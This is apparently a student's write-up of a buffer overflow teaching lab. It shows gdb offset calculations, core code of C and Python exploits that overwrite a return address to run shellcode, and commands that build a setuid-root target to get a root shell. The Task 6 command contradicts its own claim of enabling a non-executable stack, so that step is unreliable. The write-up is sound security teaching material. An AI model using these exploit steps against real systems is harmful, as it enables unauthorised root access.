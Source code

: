 ```yaml
---
title: Buffer Overflow Vulnerability Lab
author: Xinyi Li
date: \today{}
---
```


# Task 1

The `\bin\zsh` is called. I enter a new shell.

# Task 2

Use default `DBUF_SIZE` (i.e. 24)

## Find the address to attack

```sh
$ gcc -z execstack -fno-stack-protector -g -o stack_gdb stack.c
$ gdb stack_gdb
gdb-peda$ p $ebp
$1 = (void *) 0xbfffeb08
gdb-peda$ p &buffer
$2 = (char (*)[24]) 0xbfffeae8
gdb-peda$ p/d 0xbfffeb08-0xbfffeae8
$3 = 32
```

It shows that the value of the frame pointer is `0xbfffeb08`. So the return address is in `0xbfffeb08 + 4` and the first address we can jump to is `0xbfffeb08 + 8`. The distance between `ebp` and the buffer's starting address is 32. Added by 4 bytes stored the return address above, the distance is 36.

## C version
So use the [`exploit.c`](./exploit.c) to compose the `badfile`. The critical code part as below:

```c
int start = 517 - sizeof(shellcode);
strcpy(buffer + start, shellcode);
// set the return address to the location of the malicious command in buffer
int ret = (0xbfffeb08 + start);
strcpy(buffer + 36, (char *)&ret);
```

Then compile and execute all those files as the order of:
```sh
$ gcc -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ gcc -o exploit exploit.c
$ ./exploit
$ ./stack
```
Then you can see a new root bash start with `#`.

![The root bash](./exploit.png)

## Python version

~~There may be something wrong with the Python code both in the textbook and the instruction's template. I believe that the return address should be modified with `ret + offset of the malicious command` instead of just `ret`. And I verified it in our lab.~~

```sh
$ python3 exploit.py
$ ./stack
#
```

Full code available in [`exploit.py`](./exploit.py). Here shows the critical part:

```{.python}
ret = 0xbfffeb08 # replace 0xAABBCCDD with the correct value
offset = 36 # replace 0 with the correct value
# Fill the return address field with the address of the shellcode
content[offset:offset + 4] = (ret + start).to_bytes(4, byteorder='little')
```




# Task 3

- **Without `setuid(0)`**: start a new bash (under user `seed` and start with `$`)
- **With `setuid(0)`**: start a new bash (under user `root` and start with `#`)

Yes, It still works. Because in the additional shell code, the function `setuid(0)` is called to get root priviledge.

# Task 4

![](./brute_force.png)

# Task 5

## Turn on the StackGuard Protection

```sh
$ gcc -o stack -z execstack stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ ./stack
*** stack smashing detected ***: ./stack terminated
Aborted
```

# Task 6

## Turn on the Non-executable Stack Protection

```sh
$ gcc -o stack -z execstack stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ ./stack
Segmentation fault
```

The buffer overflow do occur. But the non-executable stack protection prevents the crash program from running the shell code.







